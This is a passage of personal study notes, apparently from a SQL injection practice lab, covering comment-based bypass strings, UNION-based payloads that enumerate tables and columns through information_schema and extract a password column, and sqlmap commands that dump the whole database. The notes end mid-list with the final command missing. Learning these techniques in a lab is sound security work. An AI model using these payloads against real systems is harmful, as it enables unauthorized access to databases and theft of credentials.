 - Using comments
	- `jeremy' or 1=1#`
	- `jeremy' OR 1=1-- -`
# Using Union
---
- Only works when ==**both sides have equal columns in selection with same data type**==
- Can use `NULL(int)` for **type cast**
  
- **Detecting number of columns from first query**
---
- Try **adding `NULL` until we get some records** (null matches with every data type) 
	- `jeremy' UNION select NULL,NULL,NULL#
		![[Pasted image 20250405155557.png]]
	- Even though we see only 2 columns (name and email), in **==backend there can be more columns.==**

- **Getting useful information**
---
- `jeremy' UNION select NULL,NULL,version()#` -> DB version
- `jeremy' UNION select NULL,NULL,table_name from information_schema.tables#` -> All tables
- `jeremy' UNION select NULL,NULL,column_name from information_schema.columns#`-> All columns
- `jeremy' UNION SELECT NULL, table_name, NULL FROM information_schema.columns WHERE column_name='username'#` -> **get table name from column name**

- Getting password:
	- `jeremy' UNION select NULL,NULL,password from injection0x01#`
	- ![[Pasted image 20250405160232.png]]


# SQLMap
---
![[Pasted image 20250406032324.png]]
![[Pasted image 20250406032355.png]]
- `sqlmap -r request.txt --level=2`
- ![[Pasted image 20250406032855.png]]


- Let's dump everything using:
	- `sqlmap -r request.txt --level=2 --dump`
	- ![[Pasted image 20250406033307.png]]
	- ![[Pasted image 20250406033344.png]]
	- ![[Pasted image 20250406033406.png]]
	- Specify table name using:
- ---
        ![[Pasted image 20250406033735.png]]
